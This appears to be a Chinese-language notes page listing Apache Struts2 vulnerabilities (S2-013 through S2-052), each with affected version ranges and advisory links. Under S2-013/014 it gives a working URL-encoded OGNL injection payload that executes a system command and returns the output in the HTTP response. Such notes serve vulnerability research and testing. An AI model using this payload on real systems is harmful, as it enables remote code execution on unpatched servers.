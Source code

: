 
![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-9/80192149.jpg)


##### S2-013,S2-014

影响版本： Struts 2.0.0 - Struts 2.3.14-Struts 2.0.0 - Struts 2.3.14.1

[S2-013](https://cwiki.apache.org/confluence/display/WW/S2-013)

[S2-014](https://cwiki.apache.org/confluence/display/WW/S2-014)

 POC

	/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('calc').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D


![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-9/26707957.jpg)

##### S2-016

影响版本：Struts 2.0.0 - Struts 2.3.15

[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-016)

[S2-016](http://www.freebuf.com/vuls/11220.html)


##### S2-032

影响版本： Struts 2.3.20 - Struts Struts 2.3.28 (except 2.3.20.3 and 2.3.24.3)


[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-032)

[Apache Struts2 s2-032技术分析及漏洞检测脚本](http://blog.topsec.com.cn/ad_lab/apache-structs2-s2-032%E6%8A%80%E6%9C%AF%E5%88%86%E6%9E%90%E5%8F%8A%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B%E8%84%9A%E6%9C%AC/)


##### S2-037

影响版本：Struts 2.3.20 - Struts Struts 2.3.28.1

[官网](https://cwiki.apache.org/confluence/display/WW/S2-037)



##### S2-045


影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

[官网](https://cwiki.apache.org/confluence/display/WW/S2-045)

##### S2-052

影响版本： Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

[官网](https://cwiki.apache.org/confluence/display/WW/S2-052)
